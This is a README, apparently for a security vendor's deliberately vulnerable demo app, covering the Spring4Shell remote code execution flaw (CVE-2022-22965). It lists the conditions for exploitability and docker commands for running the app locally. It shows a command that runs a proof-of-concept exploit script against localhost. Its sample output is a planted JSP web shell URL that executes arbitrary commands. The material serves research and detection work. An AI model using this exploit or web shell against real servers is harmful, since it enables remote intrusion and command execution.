 # Spring4shell RCE vulnerability (CVE-2022-22965)

This vulnerability affects Spring Core and allows an attacker to send a specially crafted HTTP request to bypass protections in the library’s HTTP request parser, leading to remote code execution.

Read more: [The Spring4Shell vulnerability: Overview, detection, and remediation](https://www.datadoghq.com/blog/spring4shell-vulnerability-overview-and-remediation/).

![](./screenshot.png)

In order for this vulnerability to be exploitable, several conditions must be met:
* Use JDK 9 or higher
* Have Apache Tomcat as the servlet container
* Be packaged as a traditional WAR (in contrast to a Spring Boot executable JAR)
* Use the `spring-webmvc` or `spring-webflux` dependency
* Use Spring framework versions 5.3.0 to 5.3.17, 5.2.0 to 5.2.19, or older


## Running the application

Run it:

```
docker run --rm -p 8085:8080 --name springshell-rce-poc ghcr.io/datadog/spring4shell-vulnerable-app
```

Build it yourself:

```
docker build . -t spring4shell-vulnerable-app
docker run --rm -p 8085:8080 --name springshell-rce-poc spring4shell-vulnerable-app
```


## Exploitation steps

```
python exploit-poc.py --url "http://127.0.0.1:8085/"
```

Sample output:

```
exploiting
Shell URL: http://127.0.0.1:8085/tomcatwar.jsp?pwd=j&cmd=whoami
```

When you access this URL, it will run any command you pass in the query string.

![](./exploit.png)

If you go inside the running container, you will see that a new file, `tomcatwar.jsp`, has been created.

```
docker exec -it springshell-rce-poc /bin/bash
ls /usr/local/tomcat/webapps/ROOT
```
